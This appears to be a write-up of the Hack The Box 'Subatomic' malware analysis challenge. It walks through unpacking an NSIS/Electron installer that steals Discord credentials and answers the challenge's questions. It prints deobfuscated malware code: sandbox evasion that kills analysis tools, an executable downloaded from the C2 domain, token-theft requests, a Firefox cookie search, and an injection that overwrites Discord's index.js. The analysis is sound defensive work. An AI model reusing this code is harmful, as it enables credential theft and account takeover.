# Subatomic
<p align="center">
  
</p>


**Subatomic** is a Hack The Box Sherlock in the **Malware Analysis** category, with overlap into **DFIR** (Digital Forensics and Incident Response) and **reverse engineering**. This project covers file metadata and signature analysis, unpacking Nullsoft (NSIS) installers, extracting Electron ASAR archives, deobfuscating JavaScript, and identifying indicators of compromise (C2 domain, GUID, infected Discord module).

## Scenario: 
Forela is in need of your assistance. They were informed by an employee that their Discord account had been used to send a message with a link to a file they suspect is malware. The message read: "Hi! I've been working on a new game I think you may be interested in it. It combines a number of games we like to play together, check it out!". The Forela user has tried to secure their Discord account, but somehow the messages keep being sent. They need your help to understand this malware and regain control of their account!

## Solution and Analysis:

  The current task at hand is to find out how the malware performs and keep sending messages through the discord account. Afterwards, we can use that knowledge to stop it and regain control of the discord account. We are presented with a zip file, and unzipping it shows 2 files, a readme from HTB and the malware zip.

<p align="center">
  
</p>

The folder inside malware contains `nsis-installer.exe`. NSIS is a real tool for building Windows installers, and the file's type confirms this installer was built with it. The malware presents itself as a normal installer, but it packs a malicious payload.

 - Task 1 asks us to give the imphash of the .exe malware. In order to do that, I will get the SHA256 hash and then upload it at virus total. I'm gonna use sha256sum on the console, and then I can input that into virus total.

<p align="center">
  
</p>

Here, we can see the results on virus total, and then grab the imphash from the details tab, which is  `b34f154ec913d2d2c435cbd644e91687`
<p align="center">
  
</p>

- Task 2 asks for the program name specified in the SpcSpOpusInfo Data Structure. It also instructs that the malware has a Digital Signature. Let's view the signature section on Virus Total
<p align="center">
  
</p>

In the lower section of the tab, we can view the program name is `Windows Update Assistant`, under the SpcSpOpusInfo data structure.

- Task 3 asks us for a unique GUID that the malware uses during installation. Since this is a NSIS binary file type, let's see the compressed installation files using zip functions in the Linux Console.
I used 7zip and found dll files and a unins inside:
<p align="center">

</p>
Most of these are dll files but the one that grabs my attention is app-32.7z. Why would the malicious actor put another zip inside? Perhaps it's to compress the payload and increase efficiency.

Now, to find the GUID, we look for .nsi file, since Nullsoft installers usually put the instructions of the installation inside. The 7zip command did not show the file, and after some searching I found out newer versions of 7zip do not include these scripts. Therefore, I had to search the files, and in the uninstaller file, the unique GUID is `cfbc383d-9aa0-5771-9485-7b806e8442d5`. It's mentioned multiple times. The unique GUID is same to avoid installation conflicts.

After, I decided to extract the file into another folder to take a closer look at the files inside
<p align="center">

</p>

There's more dll files and pak files, but the standalone .exe is what caught my interest. I think we should pay more attention there. But for now, let's move along with the tasks.
- Task 4 states that the malware contains a package.json file with metadata associated with it. What is the 'License' tied to this malware?

The first files I noticed with .json extension were the ones in the main folder but those were related to Vulkan and did not return useful info.
But, in the `resources` folder there's 2 files, `app.asar` and `elevate.exe` which I decided to look closer into. The asar file was large, I decided to see what's inside. Using asar and ls commands, here's the output. 

<p align="left">
 
</p>

So, the file contains the package.json we needed, and there's also a .js file, which is also noteworthy. How and why did the malicious actor use the .js file? It could be used to activate local scripts. Let's use cat command and see the license needed for task 4, which we can identify as an `ISC` License. There's also some dependencies that are used here, I'll install them in order to analyze the program.

- Task 5 states that the malware connects back to a C2 address during execution. What is the domain used for C2? 
My first instinct is to check the .js file and unfortunately, It's obfuscated, so reading through is not an option.

<p align="left">
 
</p>

Then, I tried to deobfuscate the code via webcrack but that was unsuccessful. So I decided to open it in VS Code. It opened the entire code in 1 line, so after using js-beautify, I was met with a 2 thousand line code.

<p align="left">
 
</p>

This took a while, but going through the beautified code, I found a few URLs sitting in readable parts. Two of them stood out: https://ipinfo.io/json and https://illitmagnetic.site/api/. The first is a public service that just returns your IP address, so I figured the malware uses it to look up the victim’s location. The second is a domain I didn’t recognize, and with the /api/ path it looks like where the malware would send data and get instructions, which is what a C2 does. So the C2 domain is `illitmagnetic.site.` Task 6 asks for the address which gets the public domain, which is the link I mentioned earlier. Therefore, the answer to ask 6 is `https://ipinfo.io/json`.

<p align="left">
 
</p>

At this point I found it way too difficult to debug on the Kali machine. After some searching, multiple sources suggested to open the same file on a Win11 machine, so I did. After running the install scripts for `sqlite3` and `@primno/dpapi` I opened the file in my Windows 11 VM from my homelab. I opened the archive using 7zip.

<p align="left">
 
</p>

- Task 7 states that the malware is looking for a particular path to connect back on. What is the full URL used for C2 of this malware?

Now, I decided to debug the file using Visual Studio Code as earlier, and switching to a Win11 Machine proved useful since this app was meant to run on Windows and not Linux. After a few attempts, I managed to catch the de-obfuscated code whilst running and pausing debugger. 

<p align="left">
 
</p>

Now I can see about 900 lines of javaScript. This code is very interesting with multiple malicious functions. I assume these are the functions used to steal user data, as the name implies. The names suggest multiple sources of data such as passwords, cookies, autofills, aimed at Browsers, Firefox and Discord, also with some injection scripts

<p align="center">
 
</p>

In the top of the code, I saw a const named options, with an api: `https://illitmagnetic.site/api/`. I assumed this is the answer to Task 7, since it's connected to the previous domain and is a full URL. After checking it was the correct answer.
- Task 8 states that the malware has a configured user_id which is sent to the C2 in the headers or body on every request. What is the key or variable name sent which contains the user_id value? 

I decided to check one of the functions and try to look for a user_id, since the task says it's on every request. Here's an example: 
```
async function getDiscordTokens() {
    const request = await fetch(options.api + 'paths', {
        method: 'GET',
        headers: {
            'Content-Type': 'application/json',
            'duvet_user': options.user_id
        }
    });
  ```
In the end I can see `'duvet_user'` from `options.user_id`, which is the answer to Task 8

- Task 9 states that the malware checks for a number of hostnames upon execution, and if any are found it will terminate. What hostname is it looking for that begins with arch?

Let's take a look at the `checkvm` function to see if there's a hostname that starts with "arch"
```
function checkVm() {
    if(Math.round(totalmem() / (1024 * 1024 * 1024)) < 2) process.exit(1);
    if([
        'bee7370c-8c0c-4', 'desktop-nakffmt', 'win-5e07cos9alr', 'b30f0242-1c6a-4', 'desktop-vrsqlag', 'q9iatrkprh', 'xc64zb',
        'desktop-d019gdm', 'desktop-wi8clet', 'server1', 'lisa-pc', 'john-pc', 'desktop-b0t93d6', 'desktop-1pykp29', 'desktop-1y2433r',
        'wileypc', 'work', '6c4e733f-c2d9-4', 'ralphs-pc', 'desktop-wg3myjs', 'desktop-7xc6gez', 'desktop-5ov9s0o', 'qarzhrdbpj',
        'oreleepc', 'archibaldpc', 'julia-pc', 'd1bnjkfvlh', 'compname_5076', 'desktop-vkeons4', 'NTT-EFF-2W11WSS', 'aranmoo', 'kathlcox', 'rotembarne', 'bilawson', 'seanwalla', 'gugonzal', 'zachwood', 'theresap', 'joyedwar', 'richar', 'dburns', 'willipe'
    ].includes(hostname().toLowerCase())) process.exit(1);

    const tasks = execSync('tasklist');
    [
        'opera', 'fakenet', 'dumpcap', 'httpdebuggerui', 'wireshark', 'fiddler', 'vboxservice', 'df5serv', 'vboxtray', 'vmtoolsd',
        'vmwaretray', 'ida64', 'ollydbg', 'pestudio', 'vmwareuser', 'vgauthservice', 'vmacthlp', 'x96dbg', 'vmsrvc', 'x32dbg',
        'vmusrvc', 'prl_cc', 'prl_tools', 'xenservice', 'qemu-ga', 'joeboxcontrol', 'ksdumperclient', 'ksdumper', 'joeboxserver',
        'vmwareservice', 'vmwaretray', 'discordtokenprotector'
    ].forEach((task) => {
        if(tasks.includes(task))
        execSync(`taskkill /f /im ${task}.exe`);
    });
};
```
In this function, we can see that in the first if statement there's a number of hostnames being checked, one of them being `archibaldpc`, which is the answer to Task 9. This is an interesting function, it seems it was made in order to avoid launching the code on certain machines. Some of these names look like default names for analyst and sandbox VM's, so this is a way to evade them. So, I believe this was made in order to stop the code from executing and avoid getting caught. This is another mechanism alongside obfuscation to make sure the malicious software remains hidden.

- Task 10 states that the malware looks for a number of processes when checking if it is running in a VM; however, the malware author has mistakenly made it check for the same process twice. What is the name of this process?

We can observe the earlier function's second part for that. If we look closely, we can see that `vmwaretray` is mentioned twice. Therefore, that is the answer. I should have switched to a Win11 machine earlier!

<p align="center">
 
</p>

- Task 11 states that the malware has a special function which checks to see if C:\Windows\system32\cmd.exe exists. If it doesn't it will write a file from the C2 server to an unusual location on disk using the environment variable USERPROFILE. What is the location it will be written to?

Let's take a look at the functions and see which one does this operation. In the bottom, there's a function called checkCmdInstallation, let's read it:
```
async function checkCmdInstallation() {
    return await new Promise(async(resolve) => {
        if(!existsSync('C:\\Windows\\system32\\cmd.exe')) {
            const request = await fetch(options.api + 'cmd-file', {
                method: 'GET',
                headers: {
                    'Content-Type': 'application/json',
                    'duvet_user': options?.user_id
                }
            });
    
            const response = await request.json();
            writeFileSync(join(process.env.USERPROFILE, 'Documents','cmd.exe'), Buffer.from(response?.buffer), {
                flag: 'w'
            });
            process.env.ComSpec = join(process.env.USERPROFILE, 'Documents', 'cmd.exe');
            resolve();
        } else {
            process.env.ComSpec = 'C:\\Windows\\system32\\cmd.exe';
            resolve();
        };
    });
};
```
The answer is in the middle of the code. We can see the USERPROFILE, alongside the path and the .exe file. After formatting, the answer is `%USERPROFILE%\Documents\cmd.exe`.

- Task 12 states that the malware appears to be targeting browsers as much as Discord. What command is run to locate Firefox cookies on the system?

I mentioned earlier that some of the malware was targeting Firefox. Let's take a closer look.

<p align="center">
 
</p>

Since this is the function that targets firefox, I decided to observe the code, which contained this line:
```
const cookiesFile = execSync('where /r . cookies.sqlite', { cwd: path })?.toString();
```

We can see that the command in `execSync` is used to locate the cookies. Therefore, the answer to task 12 is `where /r . cookies.sqlite`.

- Task 13 states that to finally eradicate the malware, Forela needs you to find out what Discord module has been modified by the malware so they can clean it up. What is the Discord module infected by this malware, and what's the name of the infected file?

Now there are 2 functions related to discord, one related to tokens and the other named injection. Injection is the one I assume that modifies the modules and I decided to check this function: 
```
async function discordInjection() {
    const infectedDiscords = [];

    [join(process.env.LOCALAPPDATA, 'Discord'), join(process.env.LOCALAPPDATA, 'DiscordCanary'), join(process.env.LOCALAPPDATA, 'DiscordPTB')]
    ?.forEach(async(dir) => {
        if(existsSync(dir)) {
            if(!readdirSync(dir).filter((f => f?.startsWith('app-')))?.[0]) return;
            const path = join(dir, readdirSync(dir).filter((f => f.startsWith('app-')))?.[0], 'modules', 'discord_desktop_core-1');
            const discord_index = execSync('where /r . index.js', { cwd: path })?.toString()?.trim();
            
            if(discord_index) infectedDiscords?.push(
                dir?.split(process.env.LOCALAPPDATA)?.[1]?.replace('\\', '')
            );

            const request = await fetch(options.api + 'injections', {
                method: 'GET',
                headers: {
                    duvet_user: options?.user_id,
                    logout_discord: options?.logout_discord
                }
            });

            const data = await request.json();

            writeFileSync(discord_index, data?.discord, {
                flag: 'w'
            });

            await kill(['discord', 'discordcanary', 'discorddevelopment', 'discordptb']);
            exec(`${join(dir, 'Update.exe')} --processStart ${dir?.split(process.env.LOCALAPPDATA)?.[1]?.replace('\\', '')}.exe`, function(err) {
                if(err) {};
            });
        };
    });
    return infectedDiscords;
};
```
In the upper part of the code, the const path has the `modules` part, and the name of the file is `discord_desktop_core-1`, which is the answer to Task 13.
